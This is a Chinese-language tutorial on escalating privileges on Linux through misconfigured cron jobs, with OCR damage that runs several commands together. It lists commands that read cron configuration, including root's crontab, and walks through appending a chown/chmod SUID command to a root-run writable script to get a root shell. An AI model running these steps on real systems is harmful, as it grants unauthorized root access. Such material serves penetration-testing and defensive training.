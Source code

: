 ## **Cron特权升级概述**

cron守护程序计划在指定的日期和时间运行命令。它与特定用户一起运行命令。因此，我们可以尝试滥用它来实现特权升级。

滥用cron的一个好方法是，

1.检查cron运行的脚本的文件权限。如果权限设置不正确，则攻击者可能会覆盖文件并轻松获取cron中设置的用户权限。

2.另一种方法是使用通配符技巧

**Cron\****信息收集**

一些基本命令收集一些线索，以使用错误配置的cron实现特权升级。

**命令结果**crontab -l显示当前用户的cronls -la /etc/cron*显示计划的作业概述

具有特权的运行脚本，其他用户可以编辑该脚本。

**查找特权用户拥有但可写的任何内容：**

crontab -lls -alh /var/spool/cronls -al /etc/ | grep cronls -al /etc/cron*cat /etc/cron*cat /etc/at.allowcat /etc/at.denycat /etc/cron.allowcat /etc/cron.denycat /etc/crontabcat /etc/anacrontabcat /var/spool/cron/crontabs/root

**查看其他用户的**crontab

$ crontab -u tstark -l0 0 / jarvis / reboot-arc-reactor

如果服务器上有很多用户，那么可以在cron日志中看到详细信息，可能包含用户名。

例如，在这里我可以看到运行数据库备份脚本的ubuntu用户：

8月5日4:05:01 dev01 CRON [2128]：（ubuntu）CMD（/var/cronitor/database-backup.sh）

**使用**pspy**工具（**32**位为**pspy32**，**64**位为**pspy64**）。**

下载链接：[https://github.com/DominicBreuker/pspy](https://link.zhihu.com/?target=https%3A//github.com/DominicBreuker/pspy)

**利用配置错误的**cronjob**获得**root**访问权限**

$ ls -la /etc/cron.d –输出cron.d中已经存在的cronjob

find / -perm -2 -type f 2> / dev / null –输出可写文件

ls -la /usr/local/sbin/cron-logrotate.sh –让我们确认cron-logrotate.sh是否可写。

## **我们知道cron-lograte.sh是可写的，它由logrotate cronjob运行。**

那么我们在cron-lograte.sh中编写/附加的任何命令都将以“ root”身份执行。

我们在/ tmp目录中编写一个C文件并进行编译。

rootme可执行文件将生成一个shell。

```text
$ ls -la rootme –它告诉我们它是由用户'SHayslett'拥有的
$ echo“ chown root：root / tmp / rootme; chmod u + s /tmp/rootme;”>/usr/local/sbin/cron-logrotate.sh –这将更改可执行文件的所有者和组为root。它还将设置SUID位。$ ls -la rootme – 5分钟后，运行了logrotate cronjob，并以root特权执行了cron-logrotate.sh。$ ./rootme –生成一个root shell。
```
